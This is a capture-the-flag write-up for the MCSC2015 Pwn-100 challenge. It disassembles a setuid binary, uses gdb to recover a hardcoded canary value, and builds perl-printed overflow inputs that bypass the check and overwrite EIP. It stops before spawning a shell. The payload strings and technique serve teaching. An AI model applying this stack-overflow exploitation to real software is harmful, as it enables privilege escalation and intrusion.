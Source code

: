 #MCSC2015 writeup for Pwn-100
After establishing ssh connection, here's what are up to :<br>
```
pwn1@MCSC2015:/challenges/pwn1$ ls -lia
total 28
13238274 drwxr-xr-x 2 root   root    4096 mai   18 15:13 .
13238273 drwxr-xr-x 6 root   root    4096 mai   18 15:13 ..
13238276 -rw------- 1 pwned1 pwned1    36 mai   18 15:13 FLAG
13238275 -rws--sr-x 1 pwned1 pwned1 12376 mai   18 15:13 pwn1
```
Let's first check the security of this binary :	<br>

```
pwn1@MCSC2015:/challenges/pwn1$ /tmp/checksec.sh --file /challenges/pwn1/pwn1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   pwn1
pwn1@MCSC2015:/challenges/pwn1$ cat /proc/sys/kernel/randomize_va_space 
2
```
As it appear, there's no protection exept for ASLR.<br>
Nothing but good news ... for now !<br>
Let's look to the binary more closely.<br>
```
080489fe <main>:
 80489fe:	55                   	push   %ebp
 80489ff:	89 e5                	mov    %esp,%ebp
 8048a01:	e8 01 fc ff ff       	call   8048607 <vuln>
 8048a06:	b8 00 00 00 00       	mov    $0x0,%eax
 8048a0b:	5d                   	pop    %ebp
 8048a0c:	c3                   	ret    
 8048a0d:	66 90                	xchg   %ax,%ax
 8048a0f:	90                   	nop
```
Nothing too special,a simple call to vuln function:<br>
```
08048607 <vuln>:
 8048607:	55                   	push   %ebp
 8048608:	89 e5                	mov    %esp,%ebp
 804860a:	83 ec 30             	sub    $0x30,%esp ( Buffer size 30 )
 804860d:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
 8048614:	c7 45 fc 00 00 00 00 	movl   $0x0,-0x4(%ebp)
 804861b:	8d 45 f8             	lea    -0x8(%ebp),%eax
 804861e:	c7 00 41 70 57 6d    	movl   $0x6d577041,(%eax)
 8048624:	66 c7 40 04 37 50    	movw   $0x5037,0x4(%eax)
 804862a:	c6 40 06 50          	movb   $0x50,0x6(%eax)
 804862e:	a1 a0 a0 04 08       	mov    0x804a0a0,%eax
 8048633:	50                   	push   %eax
 8048634:	6a 64                	push   $0x64
 8048636:	8d 45 d0             	lea    -0x30(%ebp),%eax
 8048639:	50                   	push   %eax
 804863a:	e8 11 fe ff ff       	call   8048450 <fgets@plt>
 804863f:	83 c4 0c             	add    $0xc,%esp
 8048642:	68 90 8a 04 08       	push   $0x8048a90
 8048647:	8d 45 f8             	lea    -0x8(%ebp),%eax
 804864a:	50                   	push   %eax
 804864b:	e8 d0 fd ff ff       	call   8048420 <strcmp@plt>
 8048650:	83 c4 08             	add    $0x8,%esp
 8048653:	85 c0                	test   %eax,%eax
 8048655:	75 10                	jne    8048667 <vuln+0x60>
 8048657:	8b 45 04             	mov    0x4(%ebp),%eax
 804865a:	50                   	push   %eax
 804865b:	e8 5b ff ff ff       	call   80485bb <drop_eip>
 8048660:	83 c4 04             	add    $0x4,%esp
 8048663:	85 c0                	test   %eax,%eax
 8048665:	75 14                	jne    804867b <vuln+0x74>
 8048667:	68 98 8a 04 08       	push   $0x8048a98
 804866c:	e8 ff fd ff ff       	call   8048470 <puts@plt>
 8048671:	83 c4 04             	add    $0x4,%esp
 8048674:	6a 00                	push   $0x0
 8048676:	e8 25 fe ff ff       	call   80484a0 <exit@plt>
 804867b:	c9                   	leave  
 804867c:	c3                   	ret    
```
This function calls fgets, to get the user's input, then push $0x8048a90.<br>
Finally a strcmp to compare something with whatever $eax point to.<br>
let's run gdb to further inspection and break at those :<br>
Breakpoint 1 at 0x804863a fgets in vuln<br>
Breakpoint 2 at 0x804864b strcmp in vuln<br>
```
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) break *0x804863a
Breakpoint 1 at 0x804863a
(gdb) 	
Breakpoint 2 at 0x804864b
(gdb) run
Starting program: /challenges/pwn1/pwn1 

Breakpoint 1, 0x0804863a in vuln ()
(gdb) c
Continuing.
salut

Breakpoint 2, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbf896fd8:	"ApWm7PP"
```
let's start again gdb and break when strcmp is called in vuln function
```
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) run
Starting program: /challenges/pwn1/pwn1 
   

Breakpoint 1, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbf806c28:	"ApWm7PP"
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenges/pwn1/pwn1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB

Breakpoint 1, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbff16cb8:	"BBB\n"
```
By running our binary with "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB" nothing happens ( canary is not overwritten)<br>
However when running with "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB", the canary is overwritten with "BBB"<br>
Bingo !<br>
(We could find the offset using ltrace to find the offset to the canary as well ...)<br>
Let's exit gdb and check that again<br>
```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7Px\x00"' |./pwn1 
Go away..
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00"' |./pwn1 
pwn1@MCSC2015:/challenges/pwn1$ 
```
I run the program with first a false value of the canary to see if the offset is different from gdb, it can happen xD.<br>
Canary bypassed! we now just need to complete with some A's to override $eip ...<br>

```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00AAAAAAAA"' |./pwn1 
Segmentation fault (core dumped)
```
Bingo let's run gdb again to analyse more closely<br>
```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00AAAAAAAA"' > /tmp/input
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) run < /tmp/input
Starting program: /challenges/pwn1/pwn1 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```
Yum Yum ... we're too close to exploit that binary :)<br>
You could start by adding a lot of A's, the $eip=0x41414141, you're going to run again with the same input but less A's at the end, still eip=0x41414141, and run again to find the exact offset.<br>
However,pattern_create.rb and pattern offset.b in the metasploit framework can be handy to find the exact offset to eip without having to bruteforce it.<br>
Now, we just need to override the $eip to spawn a shell ....<br>
ASLR is on, remember ? :)<br>




